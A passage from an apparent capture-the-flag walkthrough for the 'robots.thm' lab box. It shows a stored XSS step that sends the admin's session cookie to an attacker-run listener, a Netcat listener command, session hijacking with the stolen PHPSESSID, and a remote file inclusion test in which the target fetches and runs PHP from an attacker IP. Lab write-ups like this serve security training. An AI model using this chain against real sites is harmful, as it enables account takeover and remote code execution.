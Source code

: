         ```

    * **Reasoning:** When the admin views this registered username (as implied by "Admin monitors new users"), their browser executes the script, loading `xss.js` from our Python web server.


4.  **Capture and Decode Admin Cookie:**

    * **Action:** Monitor your Netcat listener (`nc -lvnp 9001`).

    * **Observation:** The listener receives a GET request with a `data=` parameter containing the Base64-encoded `server_info.php` content.

    * **Decode Base64 (example output and command):**

        ```

        GET /?data=PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PiAgIDwhLS0gPHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PgogIDx0ZXh0YXJlYSBuYW1lPSJjb29raWVzIiByZWFkb25seSBjb2xzPSIxMDYgcm93cz0iNSI+PHBIUFNFU1NJRD02MjRjNzY1YzM5NzliMDliNWM2M2Q0YzgxMjAxZGNhYTwvc2NyaXB0Pg== HTTP/1.1

        ```

        ```bash

        echo "PASTE_BASE64_STRING_HERE" | base64 -d

        ```

    * **Result:** Extract the `PHPSESSID` (e.g., `624c765c3979b09b5c63d4c81201dcac`).


5.  **Impersonate Admin with Stolen Cookie:**

    * **Action:** Use a browser extension (like "Cookie Editor") to replace your `PHPSESSID` for `robots.thm` with the stolen admin's `PHPSESSID`.

    * **Action:** Navigate to `http://robots.thm/admin.php`.

    * **Observation:** You'll now be logged into the admin panel, which has a "URL testing" feature.


6.  **Test for Remote File Inclusion (RFI) via URL Testing:**

    * **Action:** The "URL testing" feature is suspicious. Test it by having the target web server download and execute a simple PHP file from your machine.

    * **Step 6.1: Create a Test PHP File:** In `~/robots_payloads/`, create `test.php`.

        ```php

        <?php system("echo VULNERABLE"); ?>

        ```

    * **Step 6.2: Input URL in `admin.php`:**

        ```

        http://<YOUR_ATTACKER_IP>/test.php

        ```

    * **Reasoning:** The `admin.php` script makes an outbound HTTP request to your Python server (using `curl`, `wget`, or similar internally), downloads `test.php`, and then executes the PHP code.
